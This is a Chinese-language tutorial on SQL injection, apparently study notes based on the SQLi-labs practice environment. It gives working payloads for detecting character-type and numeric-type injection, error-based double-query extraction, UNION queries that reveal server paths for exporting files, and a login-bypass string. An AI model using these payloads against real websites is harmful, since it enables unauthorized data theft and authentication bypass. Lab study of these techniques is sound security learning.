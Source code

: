 # SQL注入指北


    ....    ........................         
            ....]]O@@@@@@@@@\]].....         
    .......]@@@@@@@@@@@@@@@@@@@@@@\]....     
    ...,/@@@@@@@@@@@@@@@@@@@@@@@@@@@@@`.     
.....,@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@`... 
..../@@@@@@O@@@@@@@@@@@@@@@@@@@@@@OO@@@@@\.. 
...O@@@@@O.....,\@O[[[[[[[[[O@[.   .=@@@@@O..
..O@@@@@@O............ ..........   .@@@@@@O.
.=@@@@@@@@.........,]...,OO\]...    =@@@@@@@^
.@@@@@@@O.... ..\[[[\Oo.,*......    .,@@@@@@@
=@@@@@@@..  ....,[O/`.....,`...     ..=@@@@@@
=@@@@@@O.. . . ......*..........    ...@@@@@@
=@@@@@@O....    ....[\O@@O/.,...    ..=@@@@@@
,@@@@@@@`. .    ..*,`.]OOOO\....    ../@@@@@@
.O@@@@@@@`.........**[[[`.,`... ...../@@@@@@O
.,@@@@@@@@\`........**[OOOO... ....,@@@@@@@@`
..=@@/,[O@@@@O]`....    .......]/@@@@@@@@@@^ 
...,@@@\..\@@@@@@O..    ....=@@@@@@@@@@@@@^. 
    .@@@\...[\O/[...        .=@@@@@@@@@@@... 
    ..,@@@].........        .=@@@@@@@@@`.... 
        ,@@@@@@@@..         .=@@@@@@@`..     
        ...,@@@@@. .        .=@@@@`.....     
         .  ....[...        ....             


## 本文基于SQli-lab 综合编写 --俺是个菜狗

https://blog.csdn.net/u012763794/article/category/6210965

## 常用URL编码
> 常用的写出来吧： `空格是%20，单引号是%27， 井号是%23，双引号是%22`

## 判断到底是什么类型的注入
> 字符型--分析·略·

当输入的参 x 为字符型时，通常 php 中 SQL 语句类型大致如下：

`select * from <表名> where id = 'x'`

这种类型我们同样可以使用 `and '1'='1` 和 `and '1'='2`   来判断：

Url 地址中输入 
```
http://xxx/abc.php?id= x' and '1'='1
```

 页面运行正常，继续进行下一步。
Url 地址中继续输入 
```
http://xxx/abc.php?id= x' and '1'='2 
```

页面运行错误，则说明此 Sql 注入为`字符型注入`。
原因如下：

当输入` and '1'='1`时，后台执行 Sql 语句：
```sql
select * from <表名> where id = 'x' and '1'='1'
```

语法正确，逻辑判断正确，所以返回正确。

当输入 and '1'='2时，后台执行 Sql 语句：
```sql
select * from <表名> where id = 'x' and '1'='2'
```

> 数字型  --分析·略·

当输入 `and 1=1`时，后台执行 Sql 语句：

`select * from <表名> where id = `x` and 1=1`
没有语法错误且逻辑判断为正确，所以返回正常。

当输入 and 1=2时，后台执行 Sql 语句：

`select * from <表名> where id = x and 1=2`
没有语法错误但是`逻辑判断为假`，所以`返回错误`。

我们再使用假设法：如果这是字符型注入的话，我们输入以上语句之后应该出现如下情况：
```sql
select * from <表名> where id = 'x and 1=1' 
select * from <表名> where id = 'x and 1=2'
```


## 基于GET的注入

一般情况下 上去一个`1'`要是报错了 大差不差就是这个了

大致语句如下:
```sql
SELECT * FROM users WHERE id='1''
```

这里多了一个单引号拿去查询必然报错，单引号无法匹配。

> 尝试下

1' order by 3#

看看返回值中

若只是报错没什么异常 再尝试


**GET单引号变形字符型注入**

可以理解为 在搜索的时候额外加入了`括号或双引号`等:
如：
```sql
"select * from xxx where id =('$id')"
```
其中id是在`('$id')`中的值，所以注入的时候要记得加入`)`


在直接输入'的时候没有报错，先不要着急 尝试加入`双引号`,因为`双引号中可以包含单引号`


**GET单引号字符型[双注入](https://www.jianshu.com/p/e097a1c0d9ef)**
暴躁之A君：`在，什么是双注入？编不出来打死你！`

> 原理：当在一个聚合函数，比如count函数后面如果使用分组语句就会把查询的一部分以错误的形式显示出来。

所使用的函数:
```
说明：
rand()是一个生成随机数的函数，他会返回0到1之间到一个值。
floor()是取整函数了，童鞋们应该都很熟悉了。
count()是一个聚合函数，用户返回符合条件的记录数量。
```
>套路(代码)大概：
```sql
select count(*),concat_ws(':',([子查询],floor(rand()*2))) as a form [table_name] group by a;
```

可以理解为因为默写插叙只会返回有和空值，所以要在查询中额外查询所要的函数值。(禁止俄罗斯套娃禁止俄罗斯套娃禁止俄罗斯套娃禁止俄罗斯套娃禁止俄罗斯套娃)

我们把`count函数`也加上，这时候需要注意，要从一张表中查询结果，具体从什么表没关系，但是一定要确保有这个表，所以比较好的选择方案就是`information_schema`中的表，比如:

```sql
select count(*),concat_ws(':',(select database()),floor(rand()*2)) as a from information_schema.tables;
```

`BUT`如果前几次一直无返回值，也不要恐惧，解决恐惧的最好办法就是面对恐惧，坚持，就是胜利！*(奥里给)*
因为这坑爹的返回值是有50%的gay率返回为1 也就是查询有值。所以就写个脚本去试试吧 *(奥里给)*

**导出文件GET字符型注入**

暴躁之A君：不知道那个倒霉孩子取的名字

简单的来说：`导出到文件就是可以将查询结果导出到一个文件中。`
`sqlmap`中也有导出一句话和一个文件上传的语句。
这里的语句为：

![](img/1.png)

当这里要获取到网站的在系统中的具体路径（绝对路径）

> 首先介绍两个可以说是函数，还是变量的东西(a君:淦)
```sql
@@datadir 读取数据库路径
@@basedir MYSQL 获取安装路径
```
```sql
1') union select 1,@@basedir,@@datadir %23
```

![](img/2.png)
文件不能覆盖，输入payload

![](img/3.png)
如果是在c盘等需要管理员权限的，建议梦里做注入。

**[布尔型单引号GET盲注](https://blog.csdn.net/sdb5858874/article/details/80656144)**
A君：布尔型就是T(TRUE)F(false)boys

建议sqlmap跑跑 太费时间了


**对于登录界面的sql注入**

![](img/4.png)

类似于这种登录界面都可以，在登录中输入个单引号康康有没有什么报错啊直接报sql代码的`(ps,反正我是没见过.)`A君：你嗦你🐎呢。

有的时候你就之内跑脚本了，但是有的时候还是可以搏一搏，摩托变骆驼。


```sql
username-a
password-a')or'1'='1#
```
一般这种登录界面的查询语句为：

```sql
select username,password from user Where username=('a') and password = ('a') or '1' ='1#')
```
这时候因为and的运算优先级大于or 所以会先判断 username和passowrd正确和错误，显然这是`false`即为0，1=1为恒真即为1，这时候数据库就会变成，判断
`0 or 1`,等价于：

```sql
SELECT username, password FROM users WHERE 0 or 1;
```

大概的思路就是这样，整合的查询语句请跳转**指北代码篇**。






